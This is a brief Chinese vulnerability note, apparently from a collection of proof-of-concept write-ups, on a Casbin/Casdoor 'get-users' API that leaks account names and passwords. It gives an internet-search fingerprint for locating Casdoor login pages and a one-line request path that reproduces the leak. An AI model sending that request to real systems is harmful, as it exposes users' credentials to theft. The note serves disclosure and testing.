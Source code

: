 影响范围少 且版本均已更新
# Casbin get-users 账号密码泄漏漏洞

## 漏洞描述

Casbin get-users api接口存在账号密码泄漏漏洞，攻击者通过漏洞可以获取用户敏感信息

## 漏洞影响

```
Casbin
```

## 网络测绘

```
title="Casdoor"
```

## 漏洞复现

登录页面

![image-20220524143206718](images/202205241432780.png)

验证POC

```
/api/get-users?p=123&pageSize=123
```

![image-20220524143215583](images/202205241432624.png)
